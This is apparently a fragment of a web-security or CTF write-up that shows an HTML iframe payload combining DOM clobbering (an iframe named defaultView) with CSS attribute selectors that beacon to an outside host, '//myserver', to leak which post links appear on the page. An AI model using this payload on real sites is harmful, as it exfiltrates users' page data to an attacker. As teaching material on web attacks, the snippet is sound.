 ```html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

インターフェースは次のようになります。
